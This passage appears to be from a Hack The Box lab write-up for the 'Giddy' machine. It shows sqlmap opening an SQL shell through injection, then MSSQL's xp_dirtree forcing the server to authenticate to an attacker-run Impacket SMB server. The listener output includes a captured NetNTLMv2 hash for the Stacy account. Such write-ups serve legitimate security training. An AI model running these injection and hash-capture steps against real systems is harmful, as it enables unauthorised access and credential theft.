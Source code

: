 To make things easier we are able to drop ourselves into an SQL Shell so that it is as if we are connected to the Command Line Interface (CLI) and don't have to deal with the extensive output every time we want to run a SQL command:
```
root@kali: sqlmap -u https://10.10.10.104/mvc/Product.aspx\?ProductSubCategoryId\=18 --sql-shell
...
[13:08:48] [INFO] calling Microsoft SQL Server shell. To quit type 'x' or 'q' and press ENTER
sql-shell> select current_user
[13:09:49] [INFO] fetching SQL SELECT statement query output: 'select current_user'
[13:09:49] [INFO] retrieved: 'Giddy\\stacy'
select current_user:    'Giddy\\stacy'
sql-shell> 
```

After a lot of trial and error and research we eventually come across an article about an undocumented stored procedure of MSSQL called [master.sys.xp_dirtree](http://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html)

The article talks about listing local directories, but it is also capable of listing directories on remote smb shares. After further research (mostly from Stack Overflow) we find out that by default when connecting to a remote smb share it will use the current MSSQL Server User credentials to authenticate with the remote file share. 

We are able to exploit this feature, by setting up our own SMB share, logging the connection and authentication attempt to get the credentials of the Giddy\Stacy user, as we discovered earlier that this is the user we are logged in to MSSQL as.

Starting off we use the [Impacket suite](https://github.com/SecureAuthCorp/impacket) to set up a fake SMB server listener:
```
root@kali: python smbserver.py -ip 10.10.14.18 thoseguys /tmp
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

We use the `-ip` argument to ensure we are listening on the HTB VPN interface (using the ip address of our HTB tun0 VPN interface) then we can set the sharename argument to anything and the share path to anything.

Once it is listening we go back to our sql-shell and use the `xp_dirtree` stored procedure to attempt to connect to the share:
```
sql-shell> EXEC master.sys.xp_dirtree '\\10.10.14.18'
EXEC master.sys.xp_dirtree '\\10.10.14.18':    'NULL'
```

Switching back to our listener we can see that we have captured some details:
```
root@kali: python smbserver.py -ip 10.10.14.18 thoseguys /tmp
...
[*] Config file parsed
[*] Incoming connection (10.10.10.104,50145)
[*] AUTHENTICATE_MESSAGE (GIDDY\Stacy,GIDDY)
[*] User Stacy\GIDDY authenticated successfully
[*] Stacy::GIDDY:4141414141414141:f9ad0f62401668b9495bd2c00a2346e3:010100000000000000f95c839ec5d401e8cc48984ecfc812000000000100100077004f0048004a004700620042007900020010006c005300460076005a006d0070004b000300100077004f0048004a004700620042007900040010006c005300460076005a006d0070004b000700080000f95c839ec5d401060004000200000008003000300000000000000000000000003000005e6c30b5844e69f4473439ef9f89bb817e26ac11d8e6c212f58f0351e8b08ea30a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003800000000000000000000000000
[-] TreeConnectAndX not found *.*
[*] Handle: [Errno 104] Connection reset by peer
```